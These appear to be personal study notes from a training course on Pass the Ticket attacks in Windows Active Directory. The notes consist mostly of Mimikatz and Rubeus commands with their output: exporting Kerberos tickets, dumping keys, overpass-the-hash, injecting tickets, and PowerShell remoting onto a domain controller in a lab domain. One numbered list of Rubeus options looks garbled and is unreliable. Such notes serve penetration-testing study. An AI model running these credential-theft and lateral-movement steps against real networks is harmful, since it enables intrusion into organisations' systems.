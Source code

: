 
>Another method for moving laterally in an Active Directory environment is called a [Pass the Ticket (PtT) attack](https://attack.mitre.org/techniques/T1550/003/). In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash. We'll cover several ways to perform a PtT attack from Windows and Linux. In this section, we'll focus on Windows attacks, and in the following section, we'll cover attacks from Linux. [[Pass the Hash (PtH)]]

---

## Harvesting Kerberos Tickets from Windows

```
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 329278 (00000000:0005063e)
Session           : Network from 0
User Name         : DC01$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 7/12/2022 9:39:55 AM
SID               : S-1-5-18

         * Username : DC01$
         * Domain   : inlanefreight.htb
         * Password : (null)
         
        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 7/12/2022 9:39:55 AM ; 7/12/2022 7:39:54 PM ;
           Service Name (02) : LDAP ; DC01.inlanefreight.htb ; inlanefreight.htb ; @ inlanefreight.htb
           Target Name  (--) : @ inlanefreight.htb
           Client Name  (01) : DC01$ ; @ inlanefreight.htb
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             31cfa427a01e10f6e09492f2e8ddf7f74c79a5ef6b725569e19d614a35a69c07
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;5063e]-1-0-40a50000-DC01$@LDAP-DC01.inlanefreight.htb.kirbi !

        Group 2 - Ticket Granting Ticket

<SNIP>

mimikatz # exit
Bye!
c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi

<SNIP>
```

#mimikatz 
#### Rubeus - Export Tickets

```
Rubeus.exe dump /nowrap
```

1. `asktgt`
2. `tgtdeleg`
3. `asreproast`
4. `kerberoast`
5. `tgtdeleg /rc4`
6. `tgtdeleg /des`
7. `tgtdeleg /rc4opsec`
8. `tgtdeleg /desopsec`
9. `tgtdeleg /rc4tgt`
10. `tgtdeleg /asktgt`
11. `dump`
12. `tgtdeleg /nowrap`

#rebeus 
#### Mimikatz - Extract Kerberos Keys



```
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys
<SNIP>

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
<SNIP>
```

#### Mimikatz & Rebeus - Pass the Key or OverPass the Hash


``` 
mimikatz.exe privilege::debug sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

#mimikatz #pth #ntlm 

```c
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

#rebeus 
#### Rubeus Pass the Ticket 

> With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

---

```c
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

#ptt #rebeus 
#### Convert .kirbi to Base64 Format

```
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

#powershell #base64 #kirbi

#### Pass the Ticket - Base64 Format

```c
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

#base64

```
mimikatz.exe privilege::debug kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

#mimikatz #ptt

## Pass The Ticket with PowerShell Remoting (Windows)

```
C:\tools> mimikatz.exe privilege::debug  kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```
c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```

#powershell #mimikatz #lateral_movement 

```c
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

```C
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

#rebeus #ptt #lateral_movement
